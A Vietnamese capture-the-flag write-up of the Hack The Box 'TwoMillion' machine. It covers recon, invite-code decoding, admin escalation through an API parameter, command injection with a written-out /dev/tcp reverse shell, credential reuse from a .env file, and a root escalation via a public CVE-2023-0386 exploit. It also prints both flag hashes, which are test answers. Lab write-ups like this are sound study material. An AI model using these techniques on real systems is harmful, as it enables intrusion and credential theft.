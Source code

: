 ```yaml
---
title: HTB TwoMillion
published: 2025-08-02
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
image: "/src/content/posts/assets/twomillion.png"
---
```

# HTB Labs: Two Million
## I. User Flag
Mình được cấp 1 IP tương tự các machine khác, tiến hành truy cập và scan trước bằng nmap 
![image](https://hackmd.io/_uploads/rJQgmW3Bxg.png)
Thấy được chỉ có mỗi 2 services là `ssh` và `nginx` mình sẽ tiến hành recon cả hai
Mình sẽ tiến hành recon web server trước vì hiện tại chưa có thông tin về user của ssh
![image](https://hackmd.io/_uploads/SkiBmZ2Sxx.png)
Đây có lẽ là một trang intro về HTB, hoặc gì đó tương tự vậy. Để biết rõ hơn về directory của web này mình sẽ scan dir thử xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rJXtpK3Dlx.png)
Mình thấy một vài dir thú vị, mình sẽ thử `/register` xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rkEhaK2vgl.png)
Ta thấy đây là một trang đăng ký bình thường, nhưng để đăng ký được thì ta cần có một `invite code`, đây là một trường input nhưng mình không thể nhập được. View source mình thấy một điều thú vị
![image](https://hackmd.io/_uploads/HJ6rAKnPee.png)
Đoạn js này dùng để lấy mã `invite code` từ `localStorage` vầ ở trên ta có thể thấy thêm một file `inviteapi.min.js` tiến hành vào kiểm tra thì có vẽ như đã bị `obfuscated`
```javascript 
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Đây là dạng `eval obfuscation` để tránh mất thời gian mình sẽ dùng [beautifer](https://beautifier.io) để tiến hành `deobs`
```javascript 
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
Kết quả trả về ta có 2 `function` một là dùng để check `invite code` và cái còn lại là tạo ra `invite code`. Nói về `function` `makeInviteCode()` thì ta có thể thấy rằng nó gửi một `post req` đến `/api/v1/invite/how/to/generate` để lấy mã `invite code` từ đây và tiến hành thiết lập mã mời. Có lẽ endpoint này có thể khai thác thêm gì đó. Mình sẽ tiến hành post một `req` đến `API` để xem thử có dữ liệu gì được trả về không
![image](https://hackmd.io/_uploads/SJuUl62wee.png)
Như ta thấy, nó trả về nội dung như này, và `data` đã bị encode nhưng giờ vẫn chưa biết thuật toán dùng để encode là gì. Nhưng bên dưới lại để `entype: ROT13` nên mình sẽ decode với `RÓT13` xem
![image](https://hackmd.io/_uploads/HJJJbahvle.png)
Ta nhận được thông điệp là hãy dùng `post req` đến endpoint trên 
![image](https://hackmd.io/_uploads/r1rMZpnwle.png)
Ta tiếp tục nhận lại `data` như trên, nhưng về `data` này có vẻ như dễ dàng nhận biết được encode bằng `B64`
![image](https://hackmd.io/_uploads/SyEIWT3vlx.png)
Ta nhận lại một đoạn mã, có vẽ như chính là `invite code` nếu như không lầm thì đây chính là endpoint sẽ cung cấp `invite code` cho phía `function` ở đoạn code js truớc. Giờ mình sẽ dùng `invite code` này để reg một account
![image](https://hackmd.io/_uploads/HJDfzTnDlg.png)
![image](https://hackmd.io/_uploads/rJofG63vlg.png)
Sau khi reg thành công, ta đã vào được trang chính như trên. OK Khi vào được trang này và đã có thêm cookie. Mình sẽ tiến hành để scan dir thêm một lần nữa để xem có thể phát hiện thêm gì mới không
![image](https://hackmd.io/_uploads/BJUulxpwxe.png)
Mình thấy có thêm một dir là `/api` trả code 200 nên quyết định check thử 
![image](https://hackmd.io/_uploads/HJgAxeTvxl.png)
Ta biết thêm một dir là `/api/v1` 
![image](https://hackmd.io/_uploads/rJt-bxaPge.png)
Đây là một list `API` của version và được phân cấp theo từng người dùng. Ta có thể thấy được `/api/v1/admin` và `/api/v1/user` được chia theo từng cách call với từng method như `GET`, `POST`. Có lẽ đây là nơi mà các lệnh call `API` ở file js vừa rồi mình quan sát được nhưng không thể truy cập vào xem khi chưa có user. Có lẽ sẽ có nhiều thông tin để khai thác
Sau một lúc truy vấn thì mình phát hiện được ta có thể dùng `PUT req` đến `/api/v1/admin/settings/update`, sau khi gửi `req` đến thì ta nhận được các thông báo lỗi có thể giúp ích được rất nhiều, cụ thể
![image](https://hackmd.io/_uploads/H1qAyyCDxe.png)
Cụ thể ở `req` đầu ta nhận được `res` báo về do chưa có `content-type` hợp lệ, do `data` trả về dưới dạng json nên mình nghĩ `data` gửi hợp lệ cũng sẽ là json 
![image](https://hackmd.io/_uploads/ryeMxkCPle.png)
Sửa xong tiếp tục gửi `req` thì nhận được là thiếu param email mình lập tức thêm email vào `req` để gửi đi . Tiếp đến nó lại yêu cầu có param `is_admin`. Mình nghĩ đây là một param nhận `boolen_value` nên mình sẽ thử với `is_admin:1`
![image](https://hackmd.io/_uploads/rkl6xyADlg.png)
Kết quả ta nhận được `res` như này. Giờ có lẽ ta đã hoàn toàn có thể cấp quyền admin cho user của ta. Để test thử xem thì mình sẽ call một API admin khác
![image](https://hackmd.io/_uploads/H1JibJCwlg.png)
Hoàn toàn call thành công. Và sau khi call với `/api/v1/admin/auth` thì `res` trả về là true chứng tỏ việc leo quyền user đã thành công và giờ ta đã là `admin`
![image](https://hackmd.io/_uploads/HJfAlgCPge.png)
Tiếp theo là gửi `Post req` đến `/api/v1/admin/vpn/generate` để xem có thể khai thác gì từ `API` cuối cùng này không. Thì ta có thể thấy được nó yêu cầu thêm param là `username`
![image](https://hackmd.io/_uploads/SknQWeCvxg.png)
Và `API` này nhận bát kỳ giá trị nào của param `username`, do đó có khả năng sẽ bị `Command Injection`. Ta sẽ tiến hành thử detect
![image](https://hackmd.io/_uploads/BkWczWCDle.png)
Chỉ với việc inject đơn giản, ta đã có thể detect được lỗ hỏng. Để dễ dàng khai thác, ta cần đưa reverse shell vào để lấy shell thuận lợi cho việc khai thác hơn
```shell!
sh -i >& /dev/tcp/10.10.10.10/4242 0>&1
```
Mình sẽ dùng `bash`, sau đó chỉ cần inject vào là ta đẫ lấy được `reverse shell`.
![image](https://hackmd.io/_uploads/B1PE5GCvgg.png)
Ta thấy dễ dàng lấy được `reverse shell`, và user hiện tại là `www-data`. Không phải `admin` nên các quyền hạn hiện tại còn hạn chế. Sau một xem thử thì mình tìm được một file `.env`
![image](https://hackmd.io/_uploads/r17FO4APgg.png)
Khi cat ra ta được một credential của `admin`. Mình nghĩ đây có lẽ là credential của admin trong server `ssh`. Còn nhớ khi ta scan IP thì có 2 services 1 là `web server` 2 là `ssh`
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Giờ mình sẽ thử login với credential này xem 
![image](https://hackmd.io/_uploads/H1bWt40Dxx.png)
Ta đã thành công vào được `ssh server`. `ls` ra thì có file `user.txt`. Đây chính là file chứa `user flag` của ta, ban đầu khi vọc ở `reverse shell`, mình thấy được một dir là `/home/admin/user.txt` nhưng lúc đó lại không có quyền để đọc file. Giờ thì đã thành công lấy được `user flag`

> 79f5d11adcf863aadc6d588a6fbbe4a6

## II. Root Flag
Sau khi tìm được `user flag`, mình bắt đầu đi tìm `root flag` nhưng loay hoay mãi vẫn chưa tìm được thêm thông tin gì về lỗ hỏng để leo quyền và thông tin liên quan. Có check hint thì mình cần kiểm tra thêm về nơi lưu trữ các mail của `Linux system`. Sau một lúc search thì thấy được các mail được gửi đến sẽ được lưu ở `/var/mail`. Đi vào để kiểm tra thì nhận được một bản email gửi đến `admin` như sau
```mail
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Email này là một thông điệp nội bộ, gửi từ một nhân viên tên là `ch4p` đến `admin` và cc cho `g0blin`, với nội dung liên quan đến việc vá lỗi bảo mật hệ thống.
Tìm hiểu về `CVE-2023-0386` này thì lỗ hổng này cho phép một người dùng thông thường có thể chiếm quyền `root `bằng cách lợi dụng cơ chế sao chép file (copy-up) của `OverlayFS`. Cụ thể, khi một file có quyền `setuid` được sao chép từ một lớp file hệ thống ảo (FUSE) lên lớp ghi (upper layer), `OverlayFS` đã không loại bỏ quyền `setuid` này, cho phép kẻ tấn công thực thi file với quyền root.
Sau một lúc tìm kiếm thì mình tìm được `POC` và cũng như là payload exploit của `CVE` này [ở đây](https://github.com/sxlmnwb/CVE-2023-0386)
OK giờ ta đã có payload exploit. Tiếp đến là dựng server đẻ upload zip này lên máy victim. Mình sẽ dựng `Python server` để upload
![image](https://hackmd.io/_uploads/rkwLZhldee.png)
Có vẻ như ta không có quyền uplaod ở cả user thường và admin ở phía ssh. Giờ ta cần phải upload bằng `scp`

```bash!
sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@10.10.11.221:/tmp/         
```
Ta sẽ upload thông qua credential ssh mà ta đã có và lưu ở tmp. Cách khai thác thì tiến hành mở 2 terminal do đây là `SSH Server` nên mình sẽ start 2 sessions. Ở session 1 ta sẽ run `./fuse ./ovlcap/lower ./gc`
Và tiếp theo ở session 2 là `./exp`
![image](https://hackmd.io/_uploads/SJQHiyZOeg.png)
Như ta đã thấy, giờ hoàn toàn đã leo quyền thành công. Do đây là một bài labs để khai thác nên mình sẽ chưa tìm hiểu kỹ về `CVE` này ở blog này nên chỉ cần dùng payload exploit đã công bố là được giờ ta chỉ cần đọc root flag ở `/root/root.txt`
> 0f080a26c0360745340c0b6f5b3a407b



